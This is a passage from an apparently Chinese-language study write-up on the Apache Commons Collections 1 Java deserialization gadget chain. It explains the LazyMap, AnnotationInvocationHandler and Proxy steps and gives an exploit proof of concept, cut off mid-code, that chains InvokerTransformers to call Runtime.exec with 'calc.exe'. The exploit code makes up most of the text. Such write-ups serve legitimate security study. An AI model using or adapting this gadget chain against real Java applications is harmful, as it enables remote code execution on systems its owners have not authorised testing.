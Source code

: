    `Map outerMap = LazyMap.decorate(innerMap, transformerChain);`

2. 反射得到AnnotationInvocationHandler构造函数，传入outMap实例化对象。调用outMap需要get获取值

3. 借助proxy对象代理，自动调用AnnotationInvocationHandler的invoke的get方法。



上述代码只需要修改：

```java
	Map outerMap = LazyMap.decorate(innerMap, transformerChain);
	Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
	Constructor construct = clazz.getDeclaredConstructor(Class.class,Map.class);
	construct.setAccessible(true);
	InvocationHandler handler = (InvocationHandler)construct.newInstance(Retention.class,outerMap);
	Map proxyMap = (Map)Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},handler);
	handler = (InvocationHandler)construct.newInstance(Retention.class, proxyMap);
```

最后要再实例化的原因是入口点是AnnotationInvocationHandler的readObject，而proxy是Map对象，入口不对

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221119135414510.png)

正常执行是没问题的，但是在调试时可能会弹两遍甚至是三遍计算器。根据上面的对象代理知道Proxy代理了map对象(Map proxyMap定义后)，执行一遍map就会触发一遍payload。可以学习ysoserial先new ChainedTransformer假数组，最后再利用getDeclaredField获取私有方法iTransformers，把真正的Transformer数组设置进去

完整的poc：

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import java.lang.reflect.Field;
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,Class[].class }, new Object[] { "getRuntime",new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {"calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);//先绑定假transform
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)construct.newInstance(Retention.class,outerMap);
```